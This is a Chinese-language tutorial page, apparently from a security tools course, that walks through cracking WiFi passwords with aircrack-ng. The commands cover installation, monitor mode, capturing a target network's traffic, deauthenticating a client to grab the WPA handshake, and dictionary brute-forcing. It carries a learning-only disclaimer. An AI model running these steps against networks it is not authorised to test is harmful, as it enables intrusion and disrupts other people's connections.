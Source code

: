 ## 网络安全与攻击工具

本课程主要面对具有一定计算机基础和攻防兴趣的学员。课程主要介绍常用的网络安全工具等。

## 1. WIFI破解

> 请勿用于恶意攻击，仅限学习使用，否则后果自负

![img](https://aceld.gitbooks.io/attack-tool/content/%E5%AE%89%E5%85%A841-wifi03.png)

### WIFI破解原理

![img](https://aceld.gitbooks.io/attack-tool/content/%E5%AE%89%E5%85%A841-wifi04.png)

### 1.1 wifi破解工具下载和安装

#### Aircrack-ng

##### 下载

```
http://www.aircrack-ng.org/ 
http://www.aircrack-ng.org/downloads.html
wget http://download.aircrack-ng.org/aircrack-ng-1.2-rc2.tar.gz
```

##### 安装

如果是linux-Ubuntu

```
sudo apt-get install build-essential libssl-dev pkg-config libnl-3-dev libnl-genl-3-dev 
tar zxvf aircrack-ng-1.2-rc2.tar.gz
cd aircrack-ng-1.2-rc2

```

```
make

sudo make install

```

##### **kali-linux** 操作系统

**官方网站：**

[http://www.kali.org](http://www.kali.org/)

![img](https://aceld.gitbooks.io/attack-tool/content/%E5%AE%89%E5%85%A840-wifi01.png)

**中文论坛：**

[http://www.kali.org.cn](http://www.kali.org.cn/)

### 1.2 wifi 破解过程

**（1）. 关闭网络管理器，为了防止干扰**

```
service  network-manager stop

```

```
airmon-ng check kill

```

**（2）. 查看本机电脑的无线网卡**

```
ifconfig

```

或者

```
iwconfig

```

**（3）. 激活网卡为监听（monitor）模式**

```
airmon-ng start wlan0

```

得到监控模式下的设备名是mon0 有的可能是wlan0mon，请记住这个名字

**（4）. 探测周围无线网络**

```
airodump-ng wlan0mon

```

**（5）. 专门监听目标wifi，抓取目标的数据包（始终运行）**

```
airodump-ng --bssid mac地址 -c 频道号 –w cap文件名 wlan0mon

```

**（6）. 模拟目标wifi，想可信客户端发起断链攻击**

```
aireplay-ng -0 1 –a 目标wifi的mac -c 客户端的mac wlan0mon

```

攻击成功,airodump-ng捕获handshake ,此时可以ctrl+c终止airodump-ng抓包。

![img](https://aceld.gitbooks.io/attack-tool/content/%E5%AE%89%E5%85%A841-wifi05.png)

**（7）. 通过字典暴力破解捕获到的加密密码**

```
aircrack-ng -w 密码字典 捕获的cap文件

```

**（8）. 破解成功，恢复网络环境**

```
service  network-manager start
```